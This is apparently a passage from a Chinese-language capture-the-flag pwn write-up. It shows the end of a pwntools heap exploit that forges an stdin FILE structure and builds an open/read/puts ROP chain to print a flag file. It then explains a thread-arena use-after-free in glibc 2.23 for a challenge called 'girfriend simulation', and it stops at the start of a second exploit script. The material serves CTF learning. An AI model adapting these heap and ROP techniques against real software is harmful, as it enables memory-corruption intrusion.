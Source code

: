 ````python
#modify stdin
delete(4)
delete(3)
edit(stdin_hook-0x20,'\x71')
add(0x110,p64(0)*11+p64(0x71)+p64(stdin_hook-0x28))
add(0x60,'')
payload=p64(0)+p64(_IO_file_jumps)+p64(0)+p64(0xfbad1800)+p64(0)*6+p64(stack)+p64(stack+0x100)
print hex(len(payload))
add(0x60,payload)
add(0xa0,'./flag\x00'.ljust(8,'\x00'))
#rop
pop_rdi_ret=libc_base+libc.search(asm("pop rdi\nret")).next()
pop_rsi_ret=libc_base+libc.search(asm('pop rsi\nret')).next()
pop_rdx_ret=libc_base+libc.search(asm('pop rdx\nret')).next()
open_=libc_base+libc.symbols['open']
read=libc_base+libc.symbols['read']
puts=libc_base+libc.symbols['puts']
flag=heap+0x250
payload=p64(pop_rdi_ret)+p64(flag)+p64(pop_rsi_ret)+p64(2)+p64(open_)
payload+=p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(flag+0x10)+p64(pop_rdx_ret)+p64(0x20)+p64(read)
payload+=p64(pop_rdi_ret)+p64(flag+0x10)+p64(puts)+p64(0x6161616161)
print hex(pop_rdi_ret)
sh.sendlineafter('>','5\n'+payload)
sh.interactive()
````

# girfriend simulation

## 漏洞分析

这道题有趣的地方是可以开启多个线程，每个线程存在UAF漏洞，但是线程的堆块并不arena是释放后就返回堆块的，不想main arena有这些管理机制，因此如果线程的堆块不是在main arena里面的话，我们是无法利用的，需要想办法把它的堆弄到main arena里面去。

刚好libc的版本是2.23，线程arena是有限的，当线程arena分配完了后，线程就会使用main arena，这个时候我们就达到了目的。

接下来的任务就是如何去判断线程的堆是否在main arena里面。我们可以先创建一个promise，然后在删除掉，再创建一个promise，这个时候的promise有上一次创建的promise的数据，可以达到泄漏的目的，因此可以依据泄漏的数据来判断是否再main arena中。

获得再main arena中的线程后，利用就很简单了，不赘诉了。

## EXP

````python
from pwn import *
from LibcSearcher import *
if args['REMOTE']:
	sh=remote()
else:
	sh=process('./pwn')

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def choice(elect):
	sh.recvuntil('>>')
	sh.sendline(str(elect))

````